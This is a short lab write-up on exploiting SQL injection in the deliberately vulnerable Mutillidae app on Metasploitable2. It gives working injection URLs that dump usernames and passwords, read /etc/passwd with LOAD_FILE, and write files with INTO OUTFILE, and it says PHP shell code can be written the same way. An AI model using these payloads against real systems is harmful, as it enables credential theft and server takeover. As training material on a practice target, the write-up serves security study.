 - Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
```

- Reading and writing files on the web-server
- We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
```

- the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion.

- we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. 

- This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. 

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
